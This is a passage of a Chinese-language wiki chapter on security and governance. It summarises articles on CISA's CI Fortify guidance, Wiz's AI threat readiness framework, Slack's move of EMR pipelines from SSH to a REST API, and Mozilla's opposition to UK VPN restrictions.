

# Ch12 安全与治理

> Agent 权限越大，安全责任越重：凭据、审计、合规

> 本章收录 **115 篇**实体，按深度递增排列。

---

## 本章导航

| Level | 含义 | 篇数 |
|-------|------|------|
| ⭐ 入门 | 零基础可读 | 8 |
| ⭐⭐ 工程师 | 需编程基础 | 105 |
| ⭐⭐⭐⭐ 科学家 | 需研究背景 | 1 |
| ⭐⭐⭐⭐⭐ 大师 | 前沿/哲学 | 1 |

---

## 导读

AI Agent 正在获得越来越多的权限——执行代码、访问数据库、发送邮件、操作文件系统。

权限越大，攻击面越大。本章覆盖 Agent 安全的完整谱系：凭据管理（1Password 的机器身份方案）、Prompt 注入防御、供应链攻击（TanStack npm 事件）、恶意软件分析（GlassWASM WebAssembly 恶意代码）、逆向工程（Themida 脱壳）。

你还会看到 100 万+ AI 服务暴露在公网的扫描报告，以及 Google 与国际特赦组织联手打击商业间谍软件的行动。

安全不是"做完再考虑"的事——它应该内嵌在 Agent 架构的第一天。

---

## Ch12.001 CISA urges critical infrastructure firms to 'fortify' before it's too late | Cybersecurity Dive

> 📊 Level ⭐ | 11.9KB | `entities/cisa-urges-critical-infrastructure-firms-to-fortify-before-i.md`

## 核心要点
- **地缘政治驱动**：CISA 发布 CI Fortify 指南的核心背景是担忧中国可能在美国介入台海冲突时，对西方关键基础设施发动网络 sabotage
- **Volt Typhoon 预警**：中国的 Volt Typhoon 黑客行动已被确认在西方关键基础设施中部署了持久化访问，为潜在 disruption 做准备
- **假设前提**：CISA 明确指出，在冲突场景下，第三方连接（电信、互联网、供应商、服务提供商、上游依赖）都不可靠，威胁行为者可能已获得 OT 网络访问权限
- **双轨指导**：CISA 的 CI Fortify 指南涵盖两大核心能力——**Isolation（隔离）** 和 **Recovery（恢复）**
- **评估服务**：除指南外，CISA 还提供"目标评估"服务，对参与组织进行韧性和隔离能力评估
→ [原文存档](https://raw.githubusercontent.com/QianJinGuo/wiki/main/raw/articles/cisa-urges-critical-infrastructure-firms-to-fortify-before-i.md)

## 深度分析
### 1. CI Fortify 指南的战略背景
CISA 发布的 CI Fortify（关键基础设施韧性）指南并非凭空产生，而是植根于当前地缘政治紧张局势的迫切需要。2026年5月的台海局势已到达关键节点——中国对台湾的军事行动传闻甚嚣尘上，美国及其盟友面临是否干预的艰难抉择。在这种背景下，CISA 的指南直指一个核心威胁：**如果中国选择通过网络 sabotage 阻止美国军事干预，关键基础设施将成为首选目标。**
CISA 代理主任 Nick Andersen 明确表示："在地缘政治危机中，美国人所依赖的关键基础设施组织必须能够继续提供——至少是至关重要的服务。它们必须能够将关键系统与危害隔离，在隔离状态下继续运营，并能够快速恢复任何可能被对手成功入侵的系统。"

### 2. Volt Typhoon 行动的深远影响
理解 CI Fortify 指南，必须首先理解其背后已确认的威胁——中国的 Volt Typhoon 黑客行动。根据 CISA 和 FBI 的联合调查，Volt Typhoon 已在西方关键基础设施中建立了持久化访问，涵盖：

- 电力网络
- 供水系统
- 通信基础设施
- 交通枢纽
这一行动的战略目的不是传统的间谍活动（窃取数据），而是**战争准备**——在必要时发动网络攻击，瘫痪目标国家的社会运转能力，阻止军事响应。Volt Typhoon 黑客深入了解目标设施的运营技术（OT）网络，设计能够干扰物理运营的攻击路径。

### 3. 隔离（Isolation）战略的核心要素
CISA 指南中的"隔离"概念超越了传统的网络分段。指南要求关键基础设施运营商：
**识别关键客户**：特别是附近军事基地等国防相关设施，确保这些设施在任何情况下都能获得优先服务。例如，电网运营商需要知道哪些变电站服务于军事设施，并在资源受限情况下做出明确的供电优先级决策。
**建立服务交付期望**：与关键客户预先协商在降级状态下的最低服务标准。不是"我们能提供多少就提供多少"，而是明确"在产能降至50%时，我们优先保障哪些客户、哪些服务"。
**维护 OT 资产清单**：完整记录在隔离状态下维持关键服务所需的 OT 资产，包括其依赖关系、替代方案和手动操作能力。指南特别强调需要准备"数周至数月"的隔离运营能力。
**业务连续性计划**：CISA 要求运营商维护最新的业务连续性计划和工程流程，以便在完全与外部世界隔绝时能够安全运营。这包括：

- 手动操作程序（当自动化系统不可用时）
- 本地资源储备（燃料、备件、消耗品）
- 人员安排（如何在长期紧急状态下维持运营班次）

### 4. 恢复（Recovery）战略的核心要素
隔离是防御，恢复是重建。指南中的恢复部分强调：
**文档化系统运行知识**：CISA 发现许多关键基础设施运营商高度依赖少数"关键员工"的知识——这些人离职或不可用时，系统运行和恢复能力会大幅下降。指南要求将这种隐性知识显性化、文档化。
**备份策略**：不仅仅是数据备份，还包括配置备份、凭证备份（加密存储）、以及恢复程序本身的备份。指南特别强调备份的离线存储——在网络被入侵的情况下，在线的备份可能同样不可信。
**替换与手动过渡演练**：指南要求运营商"练习替换系统或过渡到手动操作，以防隔离失败且组件被损坏"。这种演练的重要性在于发现计划中的漏洞——往往只有在实际演练中才能发现设备依赖、人员技能缺口或程序错误。

### 5. CISA 的组织能力挑战
指南发布同时，CISA 面临着严峻的人力资源挑战。特朗普政府的大规模裁员、提前退休和强制搬迁导致 CISA 区域办公室严重受损。然而，CISA 已获得批准招聘329名新员工填补关键空缺，Andersen 向记者表示，区域团队"在这一招聘计划的优先名单上排名很高"。

### 6. 国际合作与行业生态
CI Fortify 是国际倡议，澳大利亚政府于2025年率先发布了类似指南。CISA 的版本借鉴了澳大利亚经验，并将其扩展到美国的关键基础设施环境。
指南还定义了关键基础设施生态中其他参与者的角色：

- **设备供应商**：应移除隔离和恢复的障碍（如专有协议、不透明的更新机制）
- **托管服务提供商和集成商**：应帮助运营商进行工程和规划工作
- **运营商**：应与供应商讨论依赖关系和潜在替代方案

## 实践启示
### 对关键基础设施运营商的建议
1. **立即启动差距评估**：对比 CI Fortify 指南评估当前状态，重点关注 OT 网络隔离能力和长期独立运营准备度。不要等到危机来临才发现差距。
2. **建立"关键客户"清单**：明确哪些设施、客户和服务在资源受限时享有优先权。这一决策不应在危机时刻做出，而应预先与相关方协商并文档化。
3. **投资手动操作能力**：在高度自动化的现代关键基础设施中，手动操作能力往往被忽视。指南明确要求"过渡到手动操作"的演练。评估你的设施在失去自动化系统后能否继续运营，并制定恢复手动操作能力的程序。
4. **开展定期演练**：指南强调"练习"的重要性。每季度或每半年进行一次隔离场景演练，测试业务连续性计划的有效性。
5. **参与 CISA 评估**：CISA 提供"目标评估"服务，这是免费获得专业安全评估的机会。主动联系 CISA 区域办公室参与评估，了解自身韧性的真实状况。

### 对 OT 安全团队的启示
1. **重新审视第三方连接**：CISA 明确指出在冲突场景下，电信、互联网、供应商等第三方连接都不可靠。评估所有第三方连接的攻击面，并设计在第三方连接被切断或被入侵时的应对方案。
2. **防御"内鬼"场景**：Volt Typhoon 已在 OT 网络中建立持久化访问，意味着攻击者可能从内部发起攻击。实施零信任架构，假设内部网络已被入侵，限制横向移动能力。
3. **备份与恢复的离线策略**：传统的在线备份在国家级攻击面前可能不可靠。实施气隙（air-gapped）备份，确保在系统被完全控制的情况下仍能恢复关键功能。
4. **建立 OT-IT 隔离的明确边界**：虽然 OT-IT 融合带来效率提升，但也扩大了攻击面。明确 OT 网络与 IT 网络的隔离边界，确保 IT 侧的入侵不会直接传导至 OT 侧。

### 对政策制定者的建议
1. **推动供应商责任**：要求关键基础设施供应商披露其产品的安全特性，特别是与隔离和恢复相关的特性（如专有协议的开放性、远程访问能力等）。
2. **建立行业安全标准**：在 CI Fortify 指南的基础上，推动建立具有约束力的行业安全标准。指南目前是自愿性的，但面对国家级威胁，自愿性标准可能不够。
3. **支持安全人才发展**：CISA 自身的裁员危机反映了整个网络安全行业的人才短缺。投资网络安全教育和培训，特别是 OT 安全领域的专业人才。

### 对安全厂商的机遇
1. **隔离和恢复解决方案**：CI Fortify 指南将推动对 OT 隔离解决方案、离线备份系统和手动操作能力增强产品的需求。安全厂商应评估如何帮助客户满足指南要求。
2. **演练平台**：能够模拟各类关键基础设施场景、帮助运营商进行隔离和恢复演练的平台将获得市场需求。
3. **OT 安全监控**：能够在隔离状态下独立运营、提供实时监控和异常检测的 OT 安全解决方案将成为关键投资。

## 相关实体
> [主题导航](https://github.com/QianJinGuo/wiki/blob/main/moc/cybersecurity-privacy.md)

- [New cybersecurity industry coalition aims to lead US critical infrastructure protection](https://github.com/QianJinGuo/wiki/blob/main/entities/new-cybersecurity-coalition-us-policy.md)
- [AI in Cybersecurity Training Resources | SANS Institute](https://github.com/QianJinGuo/wiki/blob/main/entities/www-sans-org-ai-in-cybersecurity-training-resources-sans-instit.md)
- [U.S. Bank shifts critical apps to AWS for AI push | CIO Dive](https://github.com/QianJinGuo/wiki/blob/main/entities/us-bank-aws-ai-migration.md)

---

## Ch12.002 A Framework for AI Threat Readiness

> 📊 Level ⭐ | 10.4KB | `entities/ai_threat_readiness_framework.md`

## 核心要点
- AI 正在加速漏洞发现与利用的整个生命周期，前沿模型已能自主发现零日漏洞、生成可用的利用代码、并链接多个弱点形成攻击链
- 安全响应窗口大幅压缩，组织需要在识别、验证和修复之间建立更快的闭环
- 四大支柱框架：消除关键风险、加速打补丁、深挖 AI 代码分析、实时检测与响应
- Wiz 数据显示 30% 的云环境至少有一台高影响机器暴露在外，19% 的组织在拥有 IAM 权限的系统上有暴露软件，6% 的组织暴露软件可直接获得管理员权限

## 深度分析
### AI 驱动威胁的本质转变
这篇文章揭示了安全领域正在发生的结构性转变：AI 将漏洞发现和利用的速度提升到了前所未有的量级。传统安全模型假设漏洞发现是相对缓慢、需要人工参与的过程，而现在前沿模型已经能够在短时间内自主完成从发现到利用的完整链路。
这种转变的深远影响在于安全工作的底层逻辑需要重塑。过去安全团队可以依赖较长的响应窗口——从漏洞披露到实际被利用之间可能有数天甚至数周。现在这个窗口正在压缩到小时甚至分钟级别。文章引用 Zeroday Clock 的数据明确指出，发现与利用之间的时间差将持续缩短。这意味着被动防御的思路已经不够用了，组织必须建立主动的、持续验证的运营模型。

### 双轴驱动框架的核心洞察
Wiz 提出的 AI Threat Readiness 框架基于两个维度：速度（Speed of Action）和可见性（Breadth of Visibility）。这两个轴构成了一切安全运营工作的基础坐标。
速度轴的核心问题是：组织能否在攻击者之前完成识别-验证-修复的完整闭环？随着 AI 加速漏洞发现，这个闭环的各个阶段都需要重新优化。传统的离散流程（发现是一个团队、验证是一个团队、修复是另一个团队）现在成为瓶颈，因为每个环节之间的延迟都可能被攻击者利用。
可见性轴则关注组织是否真正知道自己暴露了什么。Wiz 的数据揭示了一个关键洞察：危险的往往不是已知的高危漏洞，而是那些被遗忘的暴露面。30% 的云环境有高影响机器暴露在外，这不是因为这些机器上有已知的 CVE，而是因为它们暴露在互联网上，而软件版本可能包含未知漏洞。更值得注意的是，19% 的暴露软件存在于拥有 IAM 权限的系统上，这意味着攻击者可以利用这些系统作为跳板访问敏感内部资产。

### 四大支柱的递进关系
框架的四个支柱并非孤立措施，而是一个递进的防护体系：
**第一支柱：消除暴露** — 这是最根本的层面。组织首先需要确保敏感资产不可从互联网到达，无论其补丁状态如何。这包含一个重要但反直觉的理念：不应该仅仅依赖补丁来保证安全，而应该假设任何暴露的软件都可能在某个时刻变得可利用。这个支柱强调 AI 驱动的持续扫描——不仅要发现暴露面，还要验证其可利用性，并理解如果被利用会允许攻击者做什么。
**第二支柱：加速修复** — 当暴露无法完全消除时（这在实际环境中是常态），关键变成能否比攻击者更快地完成修复。这需要建立清晰的ownership、优先级排序和执行路径。文章特别强调了区分三类不同漏洞的重要性：第三方软件漏洞（CVE）、环境中该漏洞的实例、以及第一方代码中的漏洞。每类需要不同的检测、优先级和修复策略。
**第三支柱：深度代码分析** — 这是将 AI 能力应用于防御侧的主动举措。前沿模型已在网络靶场中完成近一半的挑战，证明它们能够发现复杂逻辑漏洞（如 IDOR）和跨越应用流、依赖、API 和信任边界的不安全行为。关键在于这些 AI 发现的能力不仅限于传统 SAST 能找到的问题，还包括传统工具难以识别的"不可发现"风险——那些需要深入推理应用程序逻辑才能识别的漏洞。
**第四支柱：实时检测与响应** — 即便前三道防线都做到极致，仍然会有风险转化为活跃威胁。AI 时代要求检测与响应不能再依赖人工调查，因为调查速度跟不上攻击速度。这支柱强调全上下文关联——跨代码、云、运行时、身份、网络、工作负载和数据的完整可见性——以及自动化响应工作流，能够在人类批准下快速隔离工作负载、撤销权限、阻止通信、轮换密钥。

### 红队的真实世界实验
文章透露了 Wiz Red Agent 的运营数据，这是一个外部 AI 攻击agent，在超过 150,000 个生产 Web 应用和 API 上每周进行扫描。这个 agent 每周处理超过 1000 亿 token，横跨数百个企业环境，已从发现基本结构漏洞进化到每周稳定发现超过 3,000 个高危和关键可利用逻辑漏洞。这个数字具有重要意义：这些是手动和传统扫描方法通常遗漏的"不可发现"风险。
这个数据点揭示了一个现实：AI 驱动的攻击已经在规模化运营，而防御方必须具备同等量级的 AI 能力才能跟上。

## 实践启示
### 建立持续发现-验证-修复的运营飞轮
组织需要将安全运营理解为持续运转的飞轮，而不是线性的项目。这个飞轮包含四个阶段：持续发现暴露、验证可利用性、优先排序真实运营风险、在环境和新漏洞出现时以机器速度修复。这不是一个一次性项目，而是需要嵌入到日常运营中的操作系统。
关键实践：建立一个自动化的资产发现和暴露监控机制，不仅监控已知资产，还要能发现影子 API 和未文档化的服务。同时，建立明确的 ownership 映射——每个暴露资产应该映射到具体的负责人、服务和代码仓库。

### 将补丁响应升级为零日响应能力
从"打补丁"到"零日响应"的升级是组织能力的重大跨越。传统补丁管理假设有足够的响应时间（数天到数周），而零日响应要求在数小时甚至更短时间内完成从发现到修复的全过程。
关键实践：为高曝光技术建立清晰的补丁流程和 ownership；使用 AI 驱动的分析来识别受影响的系统和自动修复路径；建立零日响应工作流，包括优先级排序、路由和执行。所有高曝光技术应该有预先定义的响应 playbook，而不是等到漏洞出现才开始协调。

### 构建分层代码扫描策略
AI 代码分析需要分层策略，而不是对所有代码一视同仁。首先确定优先级：面向客户的应用程序、互联网暴露的服务、敏感数据流、认证和授权逻辑、以及其他业务关键系统。这些应该是最深度 AI 扫描的目标。
关键实践：建立一个代码优先级机制，基于代码来源、暴露程度和业务关键性进行排序。同时建立从检测到验证到修复的完整生命周期，确保 AI 发现的高影响问题能够快速移动。每个发现都需要验证和优先级排序，然后路由到正确的工程 owner，并在源头修复。

### 建立上下文关联的检测能力
实时检测需要从孤立的告警转向上下文关联的调查能力。没有上下文的安全团队面对的是隔离的告警，需要人工关联；有了上下文，检测可以更精确，调查可以自动化，响应可以根据实际风险和影响范围进行路由。
关键实践：建立完整的环境可见性，摄取云和工作负载遥测，包括运行时遥测以获得丰富上下文；使用 AI 自动执行多个调查步骤以给出最终裁决（恶意、安全测试、未确定）；建立自动化响应 playbook，定义隔离工作负载、撤销数据访问、阻止进程等操作的触发条件；保留取证证据以支持事后分析。

### 治理与指标体系
框架最后强调了治理的重要性：建立明确的 ownership、定义预期结果、并用清晰的指标追踪进度。这些指标包括 SLA 遵守率、异常数量、资产和环境覆盖范围、以及针对定义安全结果的进展。
关键实践：建立定义清晰的委员会、角色和决策流程；定义结果和关键指标以追踪进展并向执行层报告；创建策略、SLA 和异常流程以确保风险被一致地处理。指标体系应该覆盖从暴露发现到修复完成的全流程时间（MTTR），以及各层次的覆盖率。
## 相关实体
- [Clinereleasesopen Sourceagentruntimesdk](https://github.com/QianJinGuo/wiki/blob/main/entities/clinereleasesopen-sourceagentruntimesdk.md)
- [Where Openclaw Security Is Heading Openclaw Blog](https://github.com/QianJinGuo/wiki/blob/main/entities/where-openclaw-security-is-heading-openclaw-blog.md)
- [Vietnamtodevelopdomesticcloud](https://github.com/QianJinGuo/wiki/blob/main/entities/vietnamtodevelopdomesticcloud.md)
- [5Thingstoknowabouttheclarityact](https://github.com/QianJinGuo/wiki/blob/main/entities/5thingstoknowabouttheclarityact.md)
- [Cybersecqwen 4B Why Defensive Cyber Needs Small Specialized Locally Runnable Mod](https://github.com/QianJinGuo/wiki/blob/main/entities/cybersecqwen-4b-why-defensive-cyber-needs-small-specialized-locally-runnable-mod.md)

→ [原文存档](https://raw.githubusercontent.com/QianJinGuo/wiki/main/raw/articles/ai_threat_readiness_framework.md)

- [from ssh to rest: a security-driven modernization of slack](https://github.com/QianJinGuo/wiki/blob/main/entities/from-ssh-to-rest-a-security-driven-modernization-of-slacks-e.md)

- [MOC](https://github.com/QianJinGuo/wiki/blob/main/moc/security-privacy-landscape.md)
## 关联阅读
- [原文存档](https://raw.githubusercontent.com/QianJinGuo/wiki/main/raw/articles/ai_threat_readiness_framework.md) — Wiz 官方原文

---

## Ch12.003 From SSH to REST: A Security-Driven Modernization of Slack's EMR Data Pipelines

> 📊 Level ⭐ | 8.8KB | `entities/from-ssh-to-rest-a-security-driven-modernization-of-slacks-e.md`

## 深度分析
### 问题本质：SSH 作为临时方案的长期技术债
Slack 数据平台建于 2017 年，彼时 Airflow 通过 SSHOperator 直接连接 EMR 主节点执行命令是 最直接 的路径。这种模式在规模小、团队少时完全合理，但随着 700+ 生产作业分散到 8 个独立数据区域，SSH 从便利工具演变成基础设施现代化的 阻塞点。
核心矛盾在于：SSH 是一种 状态ful、点对点的连接协议，而现代云原生数据平台需要的是 无状态、可观测、可审计的作业提交机制。当作业运行在 K8s Pod 上时，Pod 重启 → SSH 连接断开 → 作业变成僵尸 或状态不可知，这是架构层面的根本性缺陷，不是 bug。

### 技术选型的关键洞察：为什么不自己造轮子
团队拒绝了三个提案：自建 wrapper service、Ansible/Salt 远程执行框架、自定义 YARN job type。共同问题是 引入新的自定义安全层 和 额外维护负担。
最终选择 YARN Distributed Shell 是因为它满足所有非功能性需求：开源协议、已有认证授权机制、标准 YARN REST API、无需自研。**这里有个反直觉的教训**：越是基础设施级别的迁移，越应该优先使用广泛验证过的开源组件，而非自研。自研的每一行代码都是未来的维护成本和安全审计对象。

### Quarry 的架构价值：解耦 Airflow 与 EMR 基础设施细节
Quarry 原设计目标是跨计算引擎的统一作业提交网关（EMR/YARN、Trino、Snowflake），SSH 去化只是它的副产品价值。这个架构决策极具启发性：
**Before 架构**：Airflow ↔ SSHConnection ↔ EMR Master Node → Execute（紧耦合）
**After 架构**：Airflow ↔ Quarry REST API ↔ YARN ResourceManager → EMR Container（分层解耦）
解耦带来三个实质好处：
1. Airflow 不需要感知底层集群的连接细节，集群替换对 DAG 无影响
2. 作业生命周期由 Quarry 在 服务端 管理，K8s Pod 重启不影响作业执行
3. 统一观测入口——所有作业提交通过同一个 API，审计和 metrics 自然收敛

### 迁移策略：增量分阶段的本质是风险管理
五阶段方法论（PoC → 安全审查 → OKR 驱动执行 → 批量迁移 → 收尾）不是流程表演，而是每一阶段都有明确的风险递减目标：

- Phase 1 PoC 验证技术可行性（减少技术风险）
- Phase 2 安全审查确保合规（减少合规风险）
- Phase 3 OKR 绑定使项目持续获得资源（减少组织优先级风险）
- Phase 4/5 批量执行依赖前三阶段的验证基础（减少运维风险）

### 三个技术挑战的深层根因
**vmem check 问题**：SSH 执行时命令绕过了 YARN 资源管理器，相当于直接在人身上装防火墙而忽略了门口的检查站。迁移到 REST/YARN 后资源限制被正确执行，原本被掩盖的资源超用问题才暴露。这说明 SSH 模式下许多"正常"运行的作业其实一直处于资源违规状态，只是被 SSH 的穿透性掩盖了。
**EKM 网络连通性问题**：原始集群的网络路由配置能访问 KMS 端点，但这个依赖从未被显式记录——SSH 的便利性让拓扑依赖变成了隐式契约。迁移揭示了配置管理中一个常见问题：**可工作的不等于正确的**。
**多 region 复杂度**：8 个 region 不是 8x 的工作量，而是引入了 8 种独特的故障模式和配置差异。区域间的网络隔离策略、AWS 账户边界、数据主权要求各不相同。这意味着任何基础设施变更在规划阶段就必须将 region 差异纳入架构设计。

## 实践启示
### 安全迁移的工程方法论
1. **建立监测先于迁移**：在开始任何迁移前，先通过 Airflow DB 查询识别所有 SSH-based DAG，建立进度仪表板。进度可见性是保持项目动力的关键，也是避免迁移后期出现"被遗忘角落"的有效手段。
2. **测试多个环境而非跳过**：Dev → CommDev → GovDev → Prod 的递增测试路径不是为了拖延时间，而是为了在不同网络边界和账户配置下暴露问题。EKM 连接问题只在跨账户边界测试时才会出现。
3. **渐进式废弃 operator**：按 operator 类型逐个废弃（CrunchExecOperator → S3SyncOperator → ...），每个废弃周期都是一个独立的小型 PoC + 验证循环。虽然比批量迁移慢，但大幅降低了生产故障风险。

### YARN Distributed Shell 的应用场景
对于任意 shell 命令（aws s3 sync、hadoop distcp、自定义 Python 脚本）到 YARN 容器中的作业提交，YARN Distributed Shell 提供了开箱即用的解决方案，无需自研。其核心流程：
```
1. 将命令脚本上传 S3
2. POST 到 YARN REST API，指定 script location + timestamp
3. YARN 分配容器、下载脚本、执行
4. 容器生命周期由 YARN 管理（资源限制、隔离、重试、日志）
```
这对 Hadoop 生态内任意非 JVM 工作负载的容器化有普遍参考价值。

### SSH 去化的收益矩阵
| 维度 | SSH 模式问题 | REST/Quarry 解决 |
|------|-------------|-----------------|
| 安全攻击面 | 直接访问计算集群 | 服务间 token 认证 |
| 作业状态 | 连接断开→状态未知 | 服务端追踪，可查询 |
| 资源竞争 | 主节点资源争用 | 分布式 YARN 容器 |
| 审计 | 多系统关联日志 | REST API 结构化日志 |
| 基础设施演进 | 阻塞 Spark on K8s | 解耦，无阻碍 |

### 迁移完成后的战略价值
REST 架构不只解决当前问题，更解锁了未来三条关键路径：

- **Spark on Kubernetes**：无 SSH 依赖，迁移路径清晰
- **Whitecastle 完成**：主账号 EMR 集群迁移到子账号，网络隔离合规
- **平台可演进性**：Airflow 与 EMR 基础设施细节解耦，集群替换对 DAG 无感
> 来源：[原文存档](https://raw.githubusercontent.com/QianJinGuo/wiki/main/raw/articles/from-ssh-to-rest-a-security-driven-modernization-of-slacks-e.md)
## 相关实体
- [Wetesteddeepseekv4Proandflashagainstclau](https://github.com/QianJinGuo/wiki/blob/main/entities/wetesteddeepseekv4proandflashagainstclau.md)
- [Entrypointhijacking](https://github.com/QianJinGuo/wiki/blob/main/entities/entrypointhijacking.md)
- [Affirmmapsroadto100Bgmvwithcardaicommerc](https://github.com/QianJinGuo/wiki/blob/main/entities/affirmmapsroadto100bgmvwithcardaicommerc.md)
- [Why Internally Built Ai Fails Fund Accounting Audits](https://github.com/QianJinGuo/wiki/blob/main/entities/why-internally-built-ai-fails-fund-accounting-audits.md)
- Senatorsquerycreditbureausonbnpl

- [Cpanel Whm Patch 3 New Vulnerabilities](https://github.com/QianJinGuo/wiki/blob/main/entities/cpanel-whm-patch-3-new-vulnerabilities.md)
- [Tenorshare Ai Diagrimo   Free Ai Diagram Generator Online](https://github.com/QianJinGuo/wiki/blob/main/entities/tenorshare-ai-diagrimo---free-ai-diagram-generator-online.md)
- [Automating Confidential Containers Coco Infrastructure With Kyverno](https://github.com/QianJinGuo/wiki/blob/main/entities/automating-confidential-containers-coco-infrastructure-with-kyverno.md)
- [Gptomics Com How Ai Changes Software P L](https://github.com/QianJinGuo/wiki/blob/main/entities/gptomics-com-how-ai-changes-software-p-l.md)
- [Romanian Man 30 Years Us Prison Vishing](https://github.com/QianJinGuo/wiki/blob/main/entities/romanian-man-30-years-us-prison-vishing.md)
- [Youcom Download The Guide Why Api Latency Is A Misleading Metric](https://github.com/QianJinGuo/wiki/blob/main/entities/youcom-download-the-guide-why-api-latency-is-a-misleading-metric.md)
- [818662](https://github.com/QianJinGuo/wiki/blob/main/entities/818662.md)
- [2026 04 15](https://github.com/QianJinGuo/wiki/blob/main/entities/2026-04-15.md)
- [What My Privacy And Security Stack Actually Looks Like](https://github.com/QianJinGuo/wiki/blob/main/entities/what-my-privacy-and-security-stack-actually-looks-like.md)
- [Ai Traffic Cyberthreat Benchmark 2026](https://github.com/QianJinGuo/wiki/blob/main/entities/ai-traffic-cyberthreat-benchmark-2026.md)
- [Device Code Phishing Forensics What We Learned From Bec Investigations In The Wi](https://github.com/QianJinGuo/wiki/blob/main/entities/device-code-phishing-forensics-what-we-learned-from-bec-investigations-in-the-wi.md)

---

## Ch12.004 Mozilla warns UK: Breaking VPNs will not magically fix Britain's age-check mess

> 📊 Level ⭐ | 8.6KB | `entities/mozilla-warns-uk-breaking-vpns-will-not-magically-fix-britain-s-age-check-mess.md`

## 背景与事件
Mozilla 于 2026 年 5 月向英国科学、创新与技术部（Department for Science, Innovation and Technology）提交的"Growing up in the online world"consultation 提交了书面意见，反对对 VPS 提供商强制实施 VPN 阻断措施。
Mozilla 在意见书中明确指出：VPN 是"essential privacy and security tools"，被全球数百万人用于日常网络安全需求，包括公共 Wi-Fi 防护、远程办公流量保护，以及记者、活动人士等弱势群体的安全通信。
Svea Windwehr，Mozilla 政策经理，在意见书中引用了 Mozilla 长期坚持的立场：
> "VPNs serve as critical privacy and security tools for users across all ages. By hiding users' IP addresses, VPNs help protect users' location, reduce tracking and avoid IP-based profiling."
她补充道，用户依赖 VPN 实现远程连接校餐/工作网络、规避审查以及"simply protecting their privacy and security online"。

## 政策背景：Online Safety Act 与 age assurance
### 政策演进
英国政府于 2019 年首次承诺 age verification 政策，目标是防止未成年人访问色情内容。该政策由工党政府以"age assurance"名义延续至今，成为 Online Safety Act 的核心执行议题之一。
当前实施的 age assurance 计划为自愿性质，试点覆盖少数色情网站。英国内政部威胁若合规率低于 50%，将强制执行。

### VPN 使用量飙升
UK 市场中 VPN 需求量在 Online Safety Act 年龄检查实施后立即飙升。用户纷纷寻求规避向色情网站和平台提交敏感身份数据（包括面部扫描或身份证验证）的强制要求。
儿童安全倡导者和官员随后将目光转向 VPN 本身，英格兰儿童事务专员（Children's Commissioner for England）甚至建议政府探索全面禁止儿童使用 VPN 的方法。

## Mozilla 的核心论点
### 1. VPN 是基本安全基础设施，非青少年禁品
Mozilla 明确反对将 VPN 描述为青少年禁品的叙事。意见书指出，VPN 为所有年龄段用户提供关键隐私和安全工具，包括：

- 隐藏 IP 地址，保护用户地理位置
- 减少追踪和基于 IP 的用户画像
- 远程连接学校或工作网络
- 规避审查
- 基本隐私保护

### 2. 阻断 VPN 的逻辑悖论
Mozilla 指出 age-gating VPN 存在根本性矛盾：用户需要首先提交个人信息，才能访问旨在减少追踪和数据收集的软件工具。这意味着强制 age verification 的 VPN 本质上已不再是 VPN，而是"监控软件"。

### 3. 实证证据：儿童实际绕过方式
Mozilla 引用 Internet Matters 的研究指出，大多数儿童并不使用 VPN 绕过年龄限制，实际的成功绕过方式包括：

- 伪造出生日期
- 借用成人账号
- 利用薄弱的 age assurance 系统
- 用画上去的胡须等手段欺骗面部估算工具（儿童已被曝出用drawn-on facial hair 破解面部识别）

### 4. 错误的监管目标
Mozilla 认为政府正在追逐错误的目标。真正驱动未成年人访问有害内容的是推荐算法、参与激励机制和平台激励结构，而非 VPN。
Mozilla 在意见书中反复强调，英国正在向"safety through surveillance"（以监控换安全）方向漂移，而非解决推荐系统、算法参与激励和平台激励等根本问题。

## 技术困境：监管 VPN 的执行难题
### 对商业 VPS 提供商的要求
UK government 计划要求商业 VPS 提供商维护需要阻断的网站列表。批评者认为这创造了事实上的审查基础设施，而更根本的问题是：
1. **技术执行困难**：阻断独立 VPN 应用已属不易，而将 VPN 功能从现代浏览器中分离出来更是难上加难
2. **行业趋势相反**：Mozilla 已在 Firefox 中测试内置 VPN 功能，浏览器行业整体趋向于集成隐私功能
3. **监管范围无限扩张**：Denmark 最近提出的反盗版立法范围宽泛到令人担忧 VPN 使用本身可能面临法律风险（尽管部长们急忙澄清并非禁止 VPN）

### 浏览器内置 VPN 的趋势
